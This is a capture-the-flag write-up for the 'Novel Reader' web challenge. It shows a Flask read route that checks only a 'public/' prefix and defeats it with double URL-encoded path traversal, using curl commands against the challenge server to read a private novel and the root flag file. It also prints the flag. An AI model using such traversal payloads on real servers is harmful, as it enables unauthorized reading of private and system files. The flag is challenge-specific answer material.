


# Novel Reader Writeup

by: xhyr

We have many fun novels for ya...

Dockerfile Environment (Downloadable)

`http://3.64.250.135:9000`

## Initial Thoughts

In this challenge, we are provided with the source code and a url.

Let's explore the url:



After some clicking around, we find out that trying to access content from "My Private Collection" will block us with this message:



Then, there is also the "Charge Account" feature where you can convert your balance to "Words Balance", which seems to be 10 balance credits for one word.

Now, lets explore the source code.

From the `Dockerfile` we know that there is a flag.txt copied in the root directory of the app.

In the `stuff` folder, we find `main.py` that contains all of the logic for the site.

Viewing the text files in the private and public directory, we find a hardcoded flag in the `A-Secret-Tale.txt`. Weird that it is hardcoded but let's try to access that first.

## Reading Private "Novels"

As we found earlier, trying to read "private" novels results in getting a message that we cannot do that. Let's check the code for that:

```python
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```

We found this route in `main.py`, at first glance this looks like it would be vulnerable to path traversal.

A payload like `public/../private/A-Secret-Tale.txt` would probably work, we now just have to encode it.

After encoding with CyberChef. We get this payload: `public%2F%2E%2E%2Fprivate%2FA%2DSecret%2DTale%2Etxt` which is `public/../private/A-Secret-Payload.txt` without encoding.

For this we can just curl the url like this `http://3.64.250.135:9000/api/read/$PAYLOAD`.

```bash
curl http://3.64.250.135:9000/api/read/public%2F%2E%2E%2Fprivate%2FA%2DSecret%2DTale%2Etxt
```

With this command, we are still getting the unauthorized message.

Then, we try to double encode it and here's our new payload: `public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt`

```bash
curl http://3.64.250.135:9000/api/read/public%252F%252E%252E%252Fprivate%252FA%252DSecret%252DTale%252Etxt
```

We get the success message, but we fail to get the flag since we don't have enough "words_balance" to read the whole file! Atleast, now we know that we can do some directory traversal.

The next step would be to find out how to get us more credits. But before that, I remembered that there is a flag in the root folder because of the dockerfile earlier.

So, after making double encoding this payload `public/../../flag.txt`:

```bash
curl http://3.64.250.135:9000/api/read/public%252F%252E%252E%252F%252E%252E%252Fflag%252Etxt
```

Then, we get this returned:

```
{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```

With the flag: `MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}`

Note: The hardcoded flag in the `A-Secret-Tale.txt` file is another flag for the Novel Reader 2 challenge.
